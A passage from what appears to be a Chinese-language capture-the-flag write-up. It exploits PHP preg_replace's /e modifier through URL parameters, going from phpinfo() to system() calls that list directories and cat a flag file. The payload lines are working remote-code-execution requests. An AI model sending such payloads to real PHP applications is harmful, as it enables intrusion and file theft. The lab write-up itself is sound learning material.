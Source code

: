 访问的url：?h=phpinfo()就会触发phpinfo()的执行

在本题中我们传入：?pat=/test/e&rep=phpinfo()&sub=just test 就会触发phpinfo()的执行

![20190831135501.png](https://raw.githubusercontent.com/handbye/images/master/20190831135501.png)

同样执行系统命令：

```php
?pat=/test/e&rep=system("ls")&sub=just test
```

![20190831135609.png](https://raw.githubusercontent.com/handbye/images/master/20190831135609.png)

```php
?pat=/test/e&rep=system("cd s3chahahaDir;ls -la")&sub=just test
```

![20190831135945.png](https://raw.githubusercontent.com/handbye/images/master/20190831135945.png)

```php
?pat=/test/e&rep=system("cd s3chahahaDir/flag;ls -la")&sub=just test
```

![20190831140023.png](https://raw.githubusercontent.com/handbye/images/master/20190831140023.png)

```php
?pat=/test/e&rep=system("cat s3chahahaDir/flag/flag.php")&sub= just test
```

![20190831141725.png](https://raw.githubusercontent.com/handbye/images/master/20190831141725.png)

Flag是注释在网页中的，这点需要注意。
